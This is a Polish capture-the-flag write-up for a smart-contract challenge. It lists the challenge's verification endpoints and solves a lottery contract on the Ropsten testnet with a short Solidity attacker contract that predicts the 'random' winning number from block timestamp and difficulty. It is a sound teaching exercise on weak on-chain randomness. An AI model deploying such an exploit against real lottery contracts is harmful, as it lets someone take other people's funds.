




# Różdżka chaosu, Kości ze starcem, smart contracts

## Opis

"W zachodniej części Dębiny, przy wejściu do tak zwanego Labiryntu, siedzi samotny starzec. Może dotrzymasz mu towarzystwa?"

Transaction verification

`GET /transaction/:tx`

Endpoint used to check wthether :tx transation is the winning one (it should emit winning event). Result:

- 400 - invalid parameters,
- 403 - wrong transaction,
- 200 - winning transaction, response:
```
{address: "<winning address>"}
```
Sample:

`curl -v https://rozdzka.securing.pl/transaction/0x63942d3e5ff7278a623f314a85b6e3c9b31f34b84736f59f07fbfd6a50e49a05`


Solution verification

`POST /getflag/:tx`

with body:

`signature=:signature`

Endpoint used to prove the ownership of winning address (from transaction :tx) using the signature (parameter signature).

The signature parameter must be the following message I won! signed by the winning address (using signMessage function from Web3 provider).

Result:

- 400 - invalid parameters,
- 403 - wrong transaction or signature,
- 200 - flag, response:
```
{flag: "<flag>"}
```
Sample:

`curl -v --data signature=0x2e5646caf2e309017f393b951b3e960657ebe676f36f0a5f5e50abbb83ee66072e075bf0e7719eb85a07a5e8bd49bef22cde3548e4a26b08bf0633e1ecb416291a https://rozdzka.securing.pl/getflag/0x63942d3e5ff7278a623f314a85b6e3c9b31f34b84736f59f07fbfd6a50e49a05`

## Rozwiązanie

Odwiedzamy starca, który kieruje nas do [https://ropsten.etherscan.io/address/0xcA3E3EB78c308BC60e2130004F1Be37858DFd43A](https://ropsten.etherscan.io/address/0xcA3E3EB78c308BC60e2130004F1Be37858DFd43A).
Kod kontraktu dostępny jest w pliku [Lottery.sol](./Lottery.sol).

Musimy podać poprawny numer aby został wyemitowany event LotteryWinner.
Do rozwiązania wykorzystałem konto [Metamask](https://metamask.io/) oraz [Remix](https://remix.ethereum.org/)

Tworzymy kontrakt, który wywoła metodę oryginalnego kontraktu z odpowiednią wartością (ponieważ będziemy znali timestamp oraz trudność bloku):

```
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.6;

interface ILottery {
	function play(uint256 candidate) external;
}

contract MyContract {
  function callMe(address addr)
		external
  {
	  ILottery lot = ILottery(addr);
	  uint256 h = uint256(keccak256(abi.encodePacked(block.timestamp, block.difficulty)));
		lot.play(h);
  }
}
```

kompilujemy kontrakt i deployujemy go (wszystko na stronie Remix).



następnie wywołujemy metodę `callMe` podając adres docelowego kontraktu jako parametr.



po chwili sprawdzamy i widzimy, że nasza transakcja powiodła się:


sprawdźmy czy nasza transakcja jest wygrywająca:
```
curl -v https://rozdzka.securing.pl/transaction/0x7e0883b811d1daad29409e35f687f9ea3fb70238ea877d70b05a51cd5fe50e15
```
w odpowiedzi dostajemy:


i widzimy, że transakcja jest wygrywająca! Teraz wystarczy podpisać wiadomość `I won!` i odebrać flagę:



```
curl -v --data signature=0xdc61779ab284f6d2a13b6b8313325759712e605dd352d2c8695c52c12ea1b7760457c739ca308f3e85e7d238170431ac71be69008d906db74462ab18f24cd5271b https://rozdzka.securing.pl/getflag/0x7e0883b811d1daad29409e35f687f9ea3fb70238ea877d70b05a51cd5fe50e15
```


